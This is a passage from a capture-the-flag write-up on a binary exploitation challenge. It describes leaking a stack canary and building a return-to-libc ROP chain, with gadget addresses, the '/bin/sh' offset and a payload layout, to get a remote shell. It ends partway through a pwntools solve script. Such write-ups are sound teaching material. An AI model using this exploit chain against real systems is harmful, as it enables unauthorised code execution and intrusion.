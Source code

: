 ### Remote shell

With canary value and libc address in hands we are ready to get remote shell. Given there is NX protection and stack code
is not executable we will use ROP (more on [ironstone](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming)) to execute return to libc technique.
First we need to get address of string "/bin/sh" in libc library (`system` function takes argument what to launch):

```bash
# strings -a -t x libc.so.6 | grep /bin/sh
sh_offset = 0x1d8678
```

Using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) we find tons of useful gadgets in libc library:
```bash
$ ROPgadget --binary libc.so.6 | grep ret
```
I've selected few that will help me to build return to libc chain:

* 0x000000000002a3e5: pop rdi
* 0x00000000000baaf9: xor rax, rax, ret

With all of this our payload will look like:

1. 88 bytes of padding for buffer
2. 8 bytes of canary value
3. 8 bytes value of 1 - unchanged
4. 8 bytes pop rdi gadget
5. 8 bytes address of "/bin/sh" string (this is argument for pop rdi gadget). As a result we set register RDI to /bin/sh
6. 8 bytes xor rax, rax, ret - this is NOP operation for [stack alignment](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment)
7. 8 bytes address for `system` call

Full python script:

??? success "solve.py"
    ```py
    from pwn import *
    
    context.binary = elfexe = ELF(os.path.dirname(__file__) + '/yawa_patched')
    libc = elfexe.libc
    
    context.log_level = 'warn'
    
    arguments = []
    if args['REMOTE']:
        remote_server = '2024.ductf.dev'
        remote_port = 30010
        io = remote(remote_server, remote_port)
    else:
        io = process([elfexe.path] + arguments)
    
    def get_canary_value():
        io.recvuntil(b"> ")                  # wait till target binary initialises
        io.sendline(b"1")                    # send choice 1 - enter value for name
        io.sendline(b"a" * 88)               # enter our name 88 a + '\n' (newline char appended by function sendline - it will overwrite nullbyte of canary)
        io.recvuntil(b"> ")                  # wait till binary asks us to make a choice
        io.sendline(b"2")                    # send choice 2 - print name value
        io.recvline()                        # receive all aaaa... till '\n'
        addr_raw = io.recvline().strip()     # receive canary value in little endian order
        addr_raw = bytearray(1) + addr_raw   # append nullbyte that we skipped
        return unpack(addr_raw[0:8])         # convert to little endian byte array number
    